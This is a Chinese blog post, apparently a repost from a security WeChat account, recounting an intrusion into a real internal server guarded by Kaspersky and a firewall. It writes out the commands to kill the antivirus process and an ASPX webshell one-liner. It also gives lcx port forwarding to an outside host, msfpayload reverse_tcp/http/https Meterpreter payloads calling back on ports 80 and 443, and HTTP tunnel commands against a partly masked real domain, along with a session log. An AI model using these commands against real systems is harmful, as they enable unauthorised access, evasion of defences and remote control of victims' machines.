 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650513289&idx=2&sn=5306cab774a6dd77b32f72cebdca7bda&chksm=83bafa6db4cd737bec88da40b476e8f81b56833669aa47dfcd4685724c9ab19beaddad012b72&mpshare=1&scene=1&srcid=06055erQb7LBJliG7hxA0Of3&sharer_sharetime=1622826483026&sharer_shareid=7fece245937ac96f04f0fb8e1311fff1#rd)

  

> **文章来****源 : 潇湘安全**

**Date/time：**2014 年，最近搞一台内网服务器搞的有些蛋疼，存在 Kaspersky Anti-Virus 8.0。常规环境遇到内网时都是直接使用 Lcx 把指定端口给转发出来即可，但是如果遇到防火墙时又该如何绕过呢？这里我根据实践测试过程写了这篇记录文章。  

kavfswp.exe 是卡巴斯基反病毒工作进程，用于拦截恶意程序，如常见的提权 EXP、MSF 载荷等，不过在测试中发现可以结束这个进程（有自启动），就是在结束这个进程几秒后又会自动运行这个进程，但中间会间隔几秒，利用间隔时间快速将 MSF 载荷上传上去并运行即可。

**注：**发现有几次隔了很长时间都没有运行 kavfswp.exe，测试的有点蛋疼，就不再去纠结这个问题了。

```
taskkill /f /im kavfswp.exe
```

在实际测试过程中我们已经把 Kaspersky 杀毒防护关掉后仍然无法正常转发，所以猜测可能开启了系统防火墙或者是有什么其他硬件防火墙，在这次绕过案例中测试了以下工具和方法。

**0x02 Lcx**

常规内网环境可以直接使用 Lcx.exe 将指定端口转发出来，然后在本地连接 1234 端口即可。但是在这里可以看到我们监听的 51 端口的连接状态为 SYN_SENT，大概率是被防火墙出入站规则拦截了。  

```
C:\Recovery\lcx.exe -listen 51 1234
C:\Recovery\lcx.exe -slave 113.xxx.xx.5 51 127.0.0.1 3389
[option:]
  -listen 连接端口<ConnectPort> 发送端口<TransmitPort>
  -tran   连接端口<ConnectPort> 发送主机<TransmitHost> 发送端口<TransmitPort>
  -slave  连接主机<ConnectHost> 连接端口<ConnectPort> 发送主机<TransmitHost> 发送端口<TransmitPort>
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtB5xCEYgd7gXPBfso6hoMcHDDqdibeHBpsP8WYgmGhLoYibDO4avpRHNUg/640?wx_fmt=png)

基友 @KoMas 提示：使用 Lcx 工具转发时可以把监听端口改为 80 即可绕过防火墙限制，在测试时得注意查看下本地 80 端口是否被占用，如果被占用则会返回错误，缺图。**（Success !）**

**0x03 Aspx Client**

Aspx Client 一句话代码：

```
<%@ Page Language="C#" ValidateRequest="false" %>
<%try{ System.Reflection.Assembly.Load(Request.BinaryRead(int.Parse(Request.Cookies["psw"].Value))).CreateInstance("c", true, System.Reflection.BindingFlags.Default, null, new object[] { this }, null, null); } catch { }%>
```

```
C:\Recovery\lcx.exe -listen 52 1234
[+] Listening port 52 ......
[+] Listen OK!
[+] Listening port 1234 ......
[+] Listen OK!
[+] Waiting for Client on port:52 ......
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBS9T3dAP4uMK0wV25vUCeqZnxoibfRsJ4ujtUdP6qXu2aT2RiaHrMfCAw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBU6X1bDGPK5tFKhMTWGvAIXl5Wzv5GM9RZ83ibj7kzekVpAicMmg1f97w/640?wx_fmt=png)

**0x04 Metasploit**

**(1) Reverse_tcp**  

使用 Metasploit 生成攻击载荷并执行监听，然后将攻击载荷 port.exe 文件通过 Webshell 上传到目标磁盘并执行，可以看到一样被防火墙拦截了，如下图所示。

```
root@dix1:~# msfpayload windows/meterpreter/reverse_tcp LHOST=113.***.**.250 LPORT=12345 X > /media/hake/port.exe
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.10
msf exploit(handler) > set LPORT 12345
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.1.10:12345 
[*] Starting the payload handler...
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBibPDa6NL7NFNDDD9bG4wvZvNxsqTyR7rLRlbpaTYmtkrHwk97eYVOXw/640?wx_fmt=png)

在[《Metasploit bind_tcp 实战应用》](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486207&idx=1&sn=31fadd6c7f8ecb2a5b69d57926a37a91&chksm=cfa6aeecf8d127fa680d291921b29200db5f69469ff001df3d1eba504a2ba3cd184a214006bb&scene=21#wechat_redirect)文中的注意事项提过：如果 reverse_tcp 反向连接被拦截后再尝试更换端口 80、443、8080，这几个端口很少会被拦截，经过实际测试发现只需将监听端口改为 80 即可绕过防火墙限制获得 Meterpreter 会话。**（Success !）**

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBtTDXZY5CjzWe6lDjEE12pVu4WIaXMXKoJtxEGlA7OAwic13TStT9RCQ/640?wx_fmt=png)

#### (2) Bind_tcp

使用 bind_tcp 正向连接测试时使用的 9999 监听端口，在运行攻击载荷后目标主机开放了 9999 端口，但并没有与我们的攻击机 IP 建立 TCP 连接。

```
root@dix1:~# msfpayload windows/meterpreter/bind_tcp LPORT=9999 X > /media/hake/port.exe
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/bind_tcp
msf exploit(handler) > set RHOST 80.**.**.21
msf exploit(handler) > set LPORT 9999
msf exploit(handler) > exploit
[*] Started bind handler
[*] Starting the payload handler...
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBCRvFMjgahveIIOA8KchbfOaYq1UiausUzVx8ReH7H92UgShH7InHJ1Q/640?wx_fmt=png)

#### (3) Reverse_http

Metasploit_Reverse_http 思路来源于 90sec 某大牛和 DM_的一篇文章 “metasploit 内网渗透小记”，但是在实际测试中发现，使用其它端口一样会被防火墙拦截，如下图所示。

```
root@dix1:~# msfpayload windows/meterpreter/reverse_http LHOST=113.***.**.236 LPORT=4444 R | msfencode -t aspx -o /media/hake/port.aspx
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST 192.168.1.9
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > exploit
[*] Started HTTP reverse handler on http://0.0.0.0:4444/
[*] Starting the payload handler...
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBTYDq4bFgGkHW5OpkZVYx4rKecIoRWmRWsXZITYBG3cianMbS8mg1D1g/640?wx_fmt=png)

基友 @darkz3r 提示，他一般都是使用 443 端口做为监听端口，抱着试一试的态度没想到还真成功了，据他说国外黑阔也经常用 443 端口来监听。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBwJ4s0G8M4OFNkY7no9xSosGQrKZUGHpzbEPu0hBE03GPzfd61icBjNw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBRwfpqvF82THgD8TeSeGb2SNkgNUL9wSvJAqHVUTibwLbW0AzTJFEVJA/640?wx_fmt=png)

#### (4) Reverse_https

前边我们测试的 Reverse_tcp 监听端口 1234 和 reverse_http 监听端口 4444 都被防火墙拦截了，但在测试 reverse_https 监听端口 4444 时发现成功绕过防火墙限制获得 Meterpreter 会话，缺图。

```
root@dix1:~# msfpayload windows/meterpreter/reverse_https LHOST=113.***.**.106 LPORT=4444 X > /media/hake/test.exe
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.1.9
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > exploit
[*] Started HTTPS reverse handler on https://0.0.0.0:4444/
[*] Starting the payload handler...
[*] 113.***.**.106:2069 Request received for /5xWX...
[*] 113.***.**.106:2069 Staging connection for target /5xWX received...
[*] Patched user-agent at offset 663656...
[*] Patched transport at offset 663320...
[*] Patched URL at offset 663384...
[*] Patched Expiration Timeout at offset 664256...
[*] Patched Communication Timeout at offset 664260...
[*] Meterpreter session 3 opened (192.168.1.5:4444 -> 80.**.**.21:2069) at 2014-08-05 23:49:20 +0800
```

**0x05 reDuh_Gui**

reDuh_Gui 工具支持脚本有：ASPX/PHP/JSP，在渗透测试过程中还得看目标主机支持哪些脚本，这里笔者测试的这台目标主机支持 ASPX/PHP 脚本，就拿 ASPX 脚本做了个演示测试，如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBaia8nicHftia4e6e5HwD6Nw1JNWCVNrIYjthItJOMuIyuuicA8MfJ0JzeQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOddMZwWgMAvGJqQ4icOxEXtBpD8vQlxdrSgSeX5ZzTZJDicSJHYJtnc1PFib1LqYhhMaWJQeyWib5sq7g/640?wx_fmt=png)

**0x06 Http_Tunna**

我们经常用的 reDuh、Tunna 和 reGeorg 等都是正向代理，上传代理脚本到服务器端，本地程序去连接服务器上的脚本，脚本程序做代理转发端口和流量，也有人把这种方式叫端口复用，HTTP 隧道。

虽说 Http_Tunna 和 reDuh_Gui 工作原理一样，但 Http_Tunna 要比 reDuh_Gui 速度快，且更稳定。支持脚本有：ASPX/PHP/JSP，也可以直接在 Metasploit 框架下使用，不过得先把 tunna_exploit.rb 文件拷贝至 MSF 模块目录下，缺图。

```
root@dix1:~# ruby proxy.rb -u http://www.canton*********dolonne.fr/u_fichier/conn.aspx -l 1234 -r 3389 -v
msf > use exploit/windows/misc/tunna_exploit
msf exploit(tunna_exploit) > set PAYLOAD windows/meterpreter/bind_tcp
msf exploit(tunna_exploit) > set RHOST 113.***.**.236
msf exploit(tunna_exploit) > set TARGETURI http://www.canton*********dolonne.fr/u_fichier/conn.aspx
msf exploit(tunna_exploit) > set VERBOSE true
msf exploit(tunna_exploit) > exploit -j
```

**注：**在测试中发现 reDuh_Gui 成功了，而 Http_Tunna 却失败了，可能是我姿势有问题，也有可能是 Http_Tunna ASPX 脚本问题，@陈小兵师傅在他文章也提到过只见 JSP 和 PHP 成功实现端口转发，所以实战中还需自己多进行测试，笔者就不再去细研究其失败原因了。

**0x07 Bypass Firewall**

Ⅰ. 使用反向连接测试 80/443 等监听端口看是否能绕过防火墙限制。（Success !）

```
1. Lcx、2. Aspx Client、3.1 Reverse_tcp、3.3 Reverse_http、3.3 Reverse_https
```

Ⅱ. 使用正向连接测试 Bind_tcp 攻击载荷看是否能绕过防火墙限制。（Failure!）

```
3.2 Bind_tcp
```

Ⅲ. 使用 HTTP 隧道测试 reDuh_Gui，Tunna_0.1 等工具看是否能绕过防火墙限制。（Success !）

```
4. reDuh_Gui、5. Http_Tunna、reGeorg、neo_reGeorg
```

**如侵权请私聊公众号删文**